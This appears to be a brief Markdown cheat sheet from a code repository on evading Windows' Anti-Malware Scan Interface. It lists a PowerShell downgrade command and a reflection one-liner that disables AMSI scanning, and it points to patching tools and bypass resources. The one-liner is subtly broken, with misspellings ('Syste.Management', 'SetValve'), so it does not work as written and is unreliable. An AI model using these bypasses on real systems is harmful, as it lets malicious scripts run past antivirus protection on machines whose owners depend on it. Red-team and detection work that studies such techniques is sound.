 # Anti-Malware Scanning Interface (AMSI) Evasion

## Powershell Downgrade

#### powershell -Version 2

## Powershell Reflection

#### [Ref].Assembly.GetType('Syste.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValve($null,$true)

## Automation

### Tools: amsi.fail, AmsiTrigger

## Patching amsi.dll

### See a separate file in this repo.

### Resource: https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs

### Resource to practice AMSI bypass obfuscation techniques: https://github.com/RythmStick/AMSITrigger
